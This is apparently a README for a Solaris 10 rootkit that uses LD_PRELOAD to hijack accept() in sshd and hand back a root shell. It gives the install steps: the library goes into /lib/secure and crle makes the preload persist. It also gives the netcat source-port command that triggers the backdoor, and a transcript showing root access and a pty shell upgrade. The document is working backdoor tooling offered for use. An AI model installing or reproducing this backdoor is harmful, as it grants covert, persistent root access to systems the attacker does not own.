 #Solaris 10.x LD_PRELOAD sshd accept() rootkit

By: c papathanasiou  

Functionality:

We hijack the libc accept() call via LD_PRELOAD and yield back a 
non-interactive shell on the remote host. 

The .so file is placed under the trusted library path. 

This has been written to specifically target sshd on Solaris, although
other daemons (bind, sendmail, apached) can also be targeted. 

Installation:

To install -> `make all`

To uninstall -> `make clean`

To come in via the backdoor -> `nc -v -p 31337 remote-host 22`


```

# make all

Installing Solaris LD_PRELOAD sshd accept() backdoor

Removing references to accept()..
Done
Compiling...
Done
Moving libhij.so to /lib/secure
Disabling ssh..
Done
Running crle to set LD_PRELOAD environment..
Done
Enabling ssh
Trojaned!!
# nc -v -p 31337 localhost 22
localhost [127.0.0.1] 22 (ssh) open
id
uid=0(root) gid=0(root)
python -c 'import pty; pty.spawn("/bin/bash")'
bash-3.00# uname -a
uname -a
SunOS unknown 5.10 Generic_137138-09 i86pc i386 i86pc
bash-3.00#
```
To uninstall: 
```
# make clean
Restarting ssh daemon...
rootkit removed..
# nc -v -p 31337 localhost 22
localhost [127.0.0.1] 22 (ssh) open
SSH-2.0-Sun_SSH_1.1
^CExiting.
#
```

---------------------------------------------------------------------
References:


[1] Halflife's paper: Phrack Magazine   Volume 7, Issue 51 September 
01, 1997

[2] Dynamic linker http://en.wikipedia.org/wiki/Dynamic_linker

[3] Toshihiro Tabata, K.S. Design of Intrusion Detection System at 
User Level with System-Call Interposing. in 1st International Conference
on E-Business and Telecommunication Networks. 2004. Portugal.

[4] Reverse Engineering with LD_PRELOAD 
http://securityvulns.com/articles/reveng/

[5] Benjamin A. Kuperman, E.S., Generation of Application Level Audit Data via Library Interposition (Technical Report). 1999, Purdue University, COAST Laboratory.

Links:

 http://www.phrack.org/issues.html?issue=54&id=10#article
 http://www.phrack.org/issues.html?issue=56&id=7#article
